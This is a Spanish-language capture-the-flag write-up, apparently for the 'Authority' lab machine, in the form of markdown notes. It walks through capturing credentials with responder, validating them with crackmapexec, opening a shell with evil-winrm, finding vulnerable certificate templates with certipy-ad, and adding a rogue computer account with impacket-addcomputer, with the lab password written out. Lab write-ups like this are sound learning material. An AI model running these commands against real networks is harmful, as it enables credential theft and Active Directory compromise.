 ### responder 
usaremos `responder` para estar a la escucha y poder capturar el hash de autenticacion
```python
sudo responder -I tun0
# de esta manera establecemos una escucha con la herramienta responder. con el parametro "-I" para indicarle nuestra direccion ip que en este caso seria la interfaz de red tun0
```
![[Pasted image 20240326225247.png]]

`responder hash`
obtenemos el usuario y la contraseña del servicio ldap
![[Pasted image 20240326225911.png]]

### crackmapexec 
con crackmapexec podemos hacer una validación del usuario y la contraseña que hemos obtenido tanto para smb como para evil-winrm.
![[Pasted image 20240326230659.png]]

### evil-winrm
establecemos conexión con la maquina 
![[Pasted image 20240326231005.png]]

### Escalada de privilegios
tenemos el directorio de Certs. esta maquina podría tener algunos certificados que sean vulnerable 
![[Pasted image 20240326231424.png]]

### certipy-ad
con esta herramienta podemos obtener información de posibles certificados vulnerables que se encuentran dentro de la maquina victima tambien podemos ver el `Template Name: CoprVPN`
```python
certipy-ad find -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable
```
![[Pasted image 20240326233657.png]]

`Enrollment Rights`
aquí podemos ver que Domain Computers tiene permisos de `Enrollment Rights` lo que significa que tenemos permisos para agregar nuevas equipos al DC(Domain Controller)
![[Pasted image 20240326234741.png]]

### impacket-addcomputer
```python

impacket-addcomputer authority.htb/svc_ldap:lDaP_1n_th3_cle4r! -dc-ip 10.10.11.222 -computer-name 'gamuke' -computer-pass 'gamuke123'

# con este comando vamos a agregar un equipo al dominio `authority.htb` utilizando las credenciales que hemos conseguido anteriormente. proporcionando un nombre y una contraseña para el equipo que vamos a crear dentro del DC(Domain Controller) 
```
![[Pasted image 20240326235443.png]]
